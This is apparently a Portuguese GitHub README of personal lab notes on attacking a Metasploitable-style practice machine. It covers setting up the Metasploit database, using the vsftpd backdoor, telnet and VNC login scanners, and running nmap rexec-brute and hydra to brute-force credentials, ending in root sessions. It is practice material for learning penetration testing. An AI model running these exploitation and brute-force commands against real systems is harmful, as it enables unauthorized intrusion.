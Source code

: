  Conectando no Bd (Parte mais chata)

sudo apt install postgresql postgresql-contrib
sudo service postgresql start

msfdb init
----
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf

![image](https://github.com/user-attachments/assets/4fd6c1bb-7046-475b-aa98-4870ef157d5e)

![image](https://github.com/user-attachments/assets/a7e1a171-b54a-4cfa-b625-edcb3abb0ada)

![image](https://github.com/user-attachments/assets/5f82ab13-8c53-4ac1-bfc4-88fe7959647e)

![image](https://github.com/user-attachments/assets/967ec4b6-3d7a-4357-9a10-85016a8a83cc)

Depois de conseguir acesso como root usando o payload de:
CRTL + Z ;
Y ;

sessions
para acessar a sessao ;
sessions -i 2 ;

![image](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)


```bash
meu ip: 177.67.136.88
ip kali: 172.24.49.254
ip meta : 192.168.100.102

PAYLOAD cmd/unix/interact = vsft 3.2.4
PAYLOAD auxiliary/scanner/telnet/telnet_login = telnet 23

PAYLOAD scanner/vnc/vnc_login = VNC  ~~~ depois entrar com vncviewer 192.168.100.102:5900 :password

nmap -p 512 --script rexec-brute -v 192.168.100.102 ~~~~ pesquisar rexec_login e usar uns dos logins

┌──(luan㉿192.168.100.102)-[~/Desktop/porta_512_logins]
└─$ hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt -P /home/luan/Desktop/porta_512_logins/passwd_512.txt -vV 192.168.100.102 rexec

``` 

